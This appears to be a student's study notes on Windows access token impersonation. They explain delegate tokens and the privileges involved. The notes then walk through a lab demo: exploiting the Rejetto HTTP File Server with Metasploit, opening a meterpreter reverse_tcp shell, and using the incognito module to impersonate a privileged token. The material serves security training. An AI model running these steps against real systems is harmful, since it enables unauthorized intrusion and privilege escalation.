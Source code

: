 **Delegate-Level Tokens:** Delegate-level tokens, on the other hand, are created through an interactive logon process. These tokens are generated when a user logs in interactively, providing their credentials for authentication. Delegate-level tokens have a broader scope compared to impersonate-level tokens. They can be used not only for local system impersonation but also for impersonating tokens on external systems. Delegate-level tokens pose a higher security risk because they can be leveraged to gain access to resources across multiple systems.

Windows privileges 
- The process of impersonating access token to elevate privileges on a system will primarily depend on the privileges assigned to the account to the account that has been exploited to gain initial access as well as the impersonation or delegation tokens are available 
- The following are the privileges that are required for a successful impersonation attack: 
	- SeAssignPrimaryToken: this allows a user to impersonate tokens: 
	- SeCreateToken: This allows user to create an arbitrary token with administrative privilege's 
	- SelmpersonatePrivilege: This allows a user to create a process under security context of another user typically with administrative privileges' 

The Incognito Module
- Incognito is a built-in meterpreter module that was originally a standalone application that allows you to impersonate user tokens after successful exploitation 
- We can use the incognito module to display a list of available tokens that we can impersonate 

Demo: 

1. obtain initial access into target system
	1. Perform nmap scan on target to check webserver on port 80 
	2. Visit in the browser and see the rejetto HTTP file server 
2. startup mfsconsole
	1. search for rejetto module and exploit 
	2. set default payload (windows/meterpreter/reverse_tcp)
	3. set lhost and lport rhost 
3. this will give you a meterpretersession 
	 - run sysinfo 
	 - migrate our meterpreter session into different process: pgrep explorer and then migrate to this id 
	 - getuid 
		 - Local service is by default unpriviliged, run: **getprivs** to check priviliges that you have 
		 - The SeImpersonatePrivilige can be used to impersonate other  access tokens![[Pasted image 20230706193427.png]]
		- load incognito 
		- list_tokens -u 
		- copy the name of the first accesstoken 
		- impersonate_token "paste name token"
			- getuid 
			- getprivs 
			- pgrep explorer 
			- migrate to explorer.exe 
			- getprivs 

When you do not find privileged access tokens -> use patato attack 

![[Pasted image 20230706211910.png]]

## Alternate Data Streams 
